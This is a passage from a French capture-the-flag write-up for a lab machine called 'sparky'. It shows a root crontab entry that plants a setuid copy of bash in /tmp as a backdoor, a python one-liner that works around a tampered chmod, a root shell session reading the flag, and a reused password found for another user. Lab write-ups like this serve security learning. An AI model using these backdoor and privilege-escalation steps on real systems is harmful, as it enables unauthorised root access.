 On peut se servir de crontab avec les droits de l'utilisateur root. Si on édite sa crontab avec l'option *-e* on peut par exemple ajouter l'entrée suivante :  

```plain
* * * * * cp /bin/bash /tmp/g0tr00t && chmod 4755 /tmp/g0troot
```

Mais tout ce que j'obtiens c'est :  

```plain
-rwxr-xr-x 1 root root 1183448 Feb 10 14:22 g0tr00t
```

Quoi ? Le bit setuid n'est pas définit ? J'ai pensé qu'à la seconde recopie le *cp* retournait un code d'erreur si le fichier existait déjà mais j'ai testé en local et ça fonctionnait :-/  

L'exécutable *chmod* ne dispose pas de *capabilities* qui auraient pu le forcer à dropper ce bit... Le système de fichier ne semble pas disposer d'interdiction de montage du type *nosuid* non plus.  

Il ne reste que l'hypothèse que *chmod* a été altéré pour ne pas mettre le bit setuid ?  

J'ai changé ma crontab pour cette commande :  

```bash
python3 -c 'import os; os.chmod("/tmp/g0tr00t", 0o4755)'
```

Et là ça marche :  

```plain
-rwsr-xr-x  1 root root 1183448 Feb 10 14:25 g0tr00t
```

On peut alors profiter de notre backdoor :  

```plain
staylor@sparky:~$ /tmp/g0tr00t -p 
g0tr00t-5.0# id 
uid=1002(staylor) gid=1002(staylor) euid=0(root) groups=1002(staylor) 
g0tr00t-5.0# cd /root 
g0tr00t-5.0# ls 
root.txt  snap 
g0tr00t-5.0# cat root.txt 
767dfec2657d60028dc63ea4496fb87a
```

Reliques
--------

En regardant la liste des utilisateurs on en remarque deux autres :  

```plain
sparky:x:1000:1000:Sparky:/home/sparky:/bin/bash 
jbottoms:x:1001:1001:,,,:/home/jbottoms:/bin/bash 
staylor:x:1002:1002:,,,:/home/staylor:/bin/bash 
jtaylor:x:1003:1003:,,,:/home/jtaylor:/bin/bash
```

Le mot de passe *dUmbrella%%* qui était dans l'enregistrement TXT fonctionne pour l'utilisateur *jbottoms* qui n'était mentionné nul part.  
